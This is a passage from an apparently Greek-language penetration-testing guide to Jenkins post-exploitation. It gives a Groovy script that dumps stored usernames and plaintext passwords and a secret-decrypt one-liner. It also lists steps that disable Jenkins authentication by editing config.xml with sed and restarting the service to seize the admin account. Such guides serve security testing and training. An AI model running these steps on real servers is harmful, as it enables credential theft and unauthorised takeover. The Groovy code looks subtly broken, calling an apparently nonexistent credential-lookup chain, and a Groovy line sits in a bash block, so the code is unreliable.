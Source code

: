 Για να αποκρυπτογραφήσετε τα μυστικά του Jenkins από το Groovy, μπορείτε να χρησιμοποιήσετε την ακόλουθη μέθοδο:

```groovy
import jenkins.security.*

def credentials = com.cloudbees.plugins.credentials.CredentialsProvider.lookupCredentials(
    com.cloudbees.plugins.credentials.common.StandardCredentials.class,
    Jenkins.instance
)

credentials.each { credential ->
    if (credential instanceof com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl) {
        def secret = com.cloudbees.plugins.credentials.CredentialsProvider
            .findCredentialById(credential.id)
            .getSecret()

        println("Username: ${credential.username}")
        println("Password: ${secret.getPlainText()}")
    }
}
```

Αυτός ο κώδικας χρησιμοποιεί την κλάση `CredentialsProvider` για να αναζητήσει και να αποκτήσει πρόσβαση στα μυστικά του Jenkins. Στη συνέχεια, ελέγχει αν το μυστικό είναι τύπου `UsernamePasswordCredentialsImpl` και αποκτά τον κωδικό πρόσβασης από αυτό.

Για να εκτελέσετε αυτόν τον κώδικα, μπορείτε να τον προσθέσετε σε ένα script στο Jenkins ή να τον εκτελέσετε από το Groovy Console Plugin. Με αυτόν τον τρόπο, θα μπορέσετε να αποκτήσετε πρόσβαση στα μυστικά του Jenkins και να τα αποκρυπτογραφήσετε για περαιτέρω ανάλυση ή χρήση.
```bash
println(hudson.util.Secret.decrypt("{...}"))
```
### Δημιουργία νέου διαχειριστή χρήστη

1. Αποκτήστε πρόσβαση στο αρχείο config.xml του Jenkins στη διαδρομή `/var/lib/jenkins/config.xml` ή `C:\Program Files (x86)\Jenkis\`.
2. Αναζητήστε τη λέξη `<useSecurity>true</useSecurity>` και αλλάξτε τη λέξη **`true`** σε **`false`**.
1. `sed -i -e 's/<useSecurity>true</<useSecurity>false</g' config.xml`
3. **Επανεκκινήστε** τον **διακομιστή Jenkins**: `service jenkins restart`
4. Τώρα πηγαίνετε ξανά στην πύλη του Jenkins και αυτή τη φορά ο Jenkins δεν θα ζητήσει κανένα διαπιστευτήριο. Μεταβείτε στην επιλογή "**Διαχείριση Jenkins**" για να ορίσετε ξανά τον **κωδικό διαχειριστή**.
5. **Ενεργοποιήστε** ξανά την **ασφάλεια** αλλάζοντας τις ρυθμίσεις σε `<useSecurity>true</useSecurity>` και **επανεκκινήστε ξανά τον Jenkins**.

## Αναφορές

* [https://github.com/gquere/pwn\_jenkins](https://github.com/gquere/pwn\_jenkins)
* [https://leonjza.github.io/blog/2015/05/27/jenkins-to-meterpreter---toying-with-powersploit/](https://leonjza.github.io/blog/2015/05/27/jenkins-to-meterpreter---toying-with-powersploit/)
* [https://www.pentestgeek.com/penetration-testing/hacking-jenkins-servers-with-no-password](https://www.pentestgeek.com/penetration-testing/hacking-jenkins-servers-with-no-password)
* [https://www.lazysystemadmin.com/2018/12/quick-howto-reset-jenkins-admin-password.html](https://www.lazysystemadmin.com/2018/12/quick-howto-reset-jenkins-admin-password.html)
* [https://medium.com/cider-sec/exploiting-jenkins-build-authorization-22bf72926072](https://medium.com/cider-sec/exploiting-jenkins-build-authorization-22bf72926072)
* [https://medium.com/@Proclus/tryhackme-internal-walk-through-90ec901926d3](https://medium.com/@Proclus/tryhackme-internal-walk-through-90ec901926d3)

<details><summary><strong>Μάθετε το hacking στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
